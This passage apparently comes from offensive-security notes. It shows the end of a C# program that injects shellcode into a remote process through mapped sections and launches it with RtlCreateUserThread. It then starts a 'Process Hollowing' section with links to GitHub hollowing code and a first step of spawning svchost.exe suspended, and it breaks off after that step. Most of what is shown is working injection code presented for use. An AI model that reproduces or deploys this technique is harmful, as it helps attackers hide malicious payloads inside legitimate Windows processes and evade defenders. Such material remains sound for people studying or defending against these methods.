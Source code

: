 ```csharp
            ReadProcessMemory(hRemoteProcess, baseAddressR, remoteMemory, remoteMemory.Length, out bytesRead);
            if (!CompareByteArray(buf, remoteMemory))
            {
                Console.WriteLine("[-] DEBUG: Shellcode bytes read from remotely mapped view do not match with local buf");
                return;
            }
            // END DEBUG

            // Execute the shellcode in a remote thread (also can be done with CreateRemoteThread)
            //CreateRemoteThread(hRemoteProcess, IntPtr.Zero, 0, baseAddressR, IntPtr.Zero, 0, IntPtr.Zero)
            IntPtr threadHandle = new IntPtr();
            if (RtlCreateUserThread(hRemoteProcess, IntPtr.Zero, false, 0, IntPtr.Zero, IntPtr.Zero, baseAddressR, IntPtr.Zero, ref threadHandle, IntPtr.Zero) != IntPtr.Zero)
            {
                Console.WriteLine("[-] Failed to create a remote thread");
                return;
            }

            Console.WriteLine($"[+] Successfully injected shellcode into remote process ({processName}, {processId})");

            // Clean up
            NtUnmapViewOfSection(hLocalProcess, baseAddressL);
            NtClose(hSection);
        }
    }
}
```
{% endcode %}




## Process Hollowing



### Hollow with Shellcode

* [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/DinvokeProcessHollow.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/DinvokeProcessHollow.cs)

1\. Create the target process (e.g., `svchost.exe`) in a suspended state.

